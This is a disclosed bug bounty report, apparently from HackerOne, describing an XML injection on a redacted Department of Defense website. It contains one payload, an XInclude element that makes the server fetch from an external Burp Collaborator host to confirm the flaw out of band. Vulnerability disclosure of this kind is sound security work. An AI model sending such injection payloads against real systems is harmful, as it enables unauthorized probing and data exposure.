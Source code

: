 # XML Injection on https://www.█████████ (███ parameter)

## Report Details
- **Report ID**: 997381
- **URL**: https://hackerone.com/reports/997381
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-10-03T23:47:37.995Z
- **Disclosed**: 2021-04-02T18:43:46.824Z

## Reporter
- **Username**: fiveguyslover
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Greetings,

I found an XML injection on https://www.███.
This kind of vulnerability can be difficult to detect and exploit remotely; you should review the application's response
here is the complete link: https://www.███/███████
Payload : 

`███████=<vuc xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://9bligh4snzlirzuxt4lbu3zullrbf0.burpcollaborator.net/foo"/></vuc>`

Result : 

███

best regards, 
frenchvlad

## Impact

gaining the access to the unauthorized parts and stealing the sensitive data would be the most important thing to know when it comes to XML’s impact.

## Attachments
No attachments
